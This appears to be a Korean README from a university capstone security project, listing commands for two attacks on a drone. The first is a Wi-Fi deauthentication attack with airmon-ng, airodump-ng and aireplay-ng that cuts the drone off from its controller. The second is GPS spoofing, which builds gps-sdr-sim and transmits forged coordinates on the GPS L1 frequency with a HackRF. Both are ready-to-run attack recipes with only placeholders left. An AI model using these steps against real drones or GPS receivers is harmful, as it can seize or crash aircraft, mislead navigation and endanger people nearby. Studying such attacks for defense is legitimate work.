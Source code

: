 캡스톤디자인I 코드
=================


#1. Deauth Attack
---------------

무선 랜카드가 장착된 Kali Linux 환경에서 행한다.

> 불필요한 프로세스를 종료하고, 공격에 이용할 무선랜의 이름을 확인한다.
>
> ```bash
> airmon-ng check kill
> iwconfig
> ```


> 무선랜을 모니터 모드로 전환하고, 드론 AP의 패킷을 수집한다.
>
> ```bash
> airmon-ng start [무선랜 이름]
> airodump-ng [무선랜 이름] --essid-regex [드론의 MAC주소] -w [저장 파일명]
> ```


> 수집한 패킷에서 제어 기기의 MAC주소를 확인하고, 인증해제 공격을 실행한다.
>
> ```bash
> iwconfig [무선랜 이름] channel [드론 AP의 채널]
> aireplay-ng --deauth [공격 시간] -a [드론의 MAC주소] -c [제어 기기의 MAC주소] [무선랜 이름]
> ```



2.GPS Spoofing
---------------

HackRF-One을 연결한 Linux 환경에서 행한다.

> GPS-SDR-SIM Github를 클론 설치한다.
>
> ```bash
> git clone https://github.com/osqzss/gps-sdr-sim.git
> ```


> 설치된 디렉토리로 이동해 Spoofing할 위도/경도를 지정한 gps-sdr-sim 파일을 생성한다.
>
> ```bash
> cd ./gps-sdr-sim
> gcc gpssim.c -lm -O3 -o gps-sdr-sim
> ```


> 나사에서 최신 천체 파일을 다운로드하고, 압축해제한다.
>
> ```bash
> cp /home/user/[파일명.gz] ./gps-sdr-sim
> gzip -d [파일명.gz]
> ```


> 압축해제된 천체 파일로 위도, 경도를 지정한 gpssim.bin 파일을 생성한다.
>
> ```bash
> ./gps-sdr-sim -e [파일명] -l [위도],[경도] -b 8
> ```


> HackRF_One으로 변조된 좌표의 GPS 신호를 전송한다.
>
> ```bash
> hackrf_transfer -t gpssim.bin -f 1575420000 -s 2600000 -a 1 -x 40
> ```

#2. Gps Spoofing Attack
---------------





[hackrf](https://github.com/greatscottgadgets/hackrf.git)
[gps-sdr-sim](https://github.com/osqzss/gps-sdr-sim)
